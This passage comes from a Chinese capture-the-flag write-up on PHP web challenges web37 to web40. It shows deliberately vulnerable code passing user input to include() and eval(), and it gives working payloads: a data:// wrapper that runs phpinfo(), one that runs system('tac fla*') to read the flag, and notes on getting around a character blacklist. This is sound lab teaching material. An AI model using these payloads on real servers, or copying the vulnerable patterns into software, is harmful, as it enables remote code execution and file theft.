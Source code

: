 `?filename=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b`

注意点:要对`+`进行手动url编码为%2b![img](https://gitee.com/blue_satchel/images/raw/master/Image(17).png)



### web38

和web37同理

### web39

```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c.".php");
    }      
}else{
    highlight_file(__FILE__);
}
```

本题还是使用data://但是不能使用base64编码了,因为使用了base64编码在执行代码的时候会对后面的.php也解码,解码完就啥都不是了,但是如果直接使用明文php代码,后面的.php没有被php代码块包裹就会被当成普通的html字符串输出到页面

payload

`?c=data://text/plain,<?php system('tac fla*');?>`

### web40

```php
<?php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
    }
        
}else{
    highlight_file(__FILE__);
}
```

本题看似过滤了很多,但是没有过滤英文括号和分号,所以可以大量使用函数

这道题凸显出了自己对php知之甚少

`next()` — 将数组中的内部指针向前移动一位

`array_reverse()` — 返回单元顺序相反的数组

`pos()`--该函数是`current()`函数的别名  `current` — 返回数组中的当前值
